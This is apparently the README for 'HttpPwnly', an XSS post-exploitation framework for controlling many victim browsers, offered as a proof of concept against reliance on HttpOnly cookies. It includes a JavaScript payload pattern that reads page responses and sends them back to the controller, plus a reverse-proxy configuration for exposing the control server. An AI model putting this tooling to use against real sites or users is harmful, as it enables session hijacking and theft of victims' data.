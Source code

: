# HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install -r requirements.txt

## Demo:
https://www.youtube.com/watch?v=spfrmsbhBaw

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```

## Reverse proxy:
HttpPwnly will bind to localhost:5000. In order to make the framework accessible remotely, the best approach is to use a reverse proxy. It's also recommended to offer HTTP as well as HTTPS, another reason to use a reverse proxy! I personally recommend using caddy (https://caddyserver.com/) which is a simple but powerful web server written in golang. This is a working caddy config file:
```
0.0.0.0:443 {
tls cert.pem key.pem
proxy / localhost:5000 {
  websocket
}
}

0.0.0.0:80 {
proxy / localhost:5000 {
  websocket
}
}
```
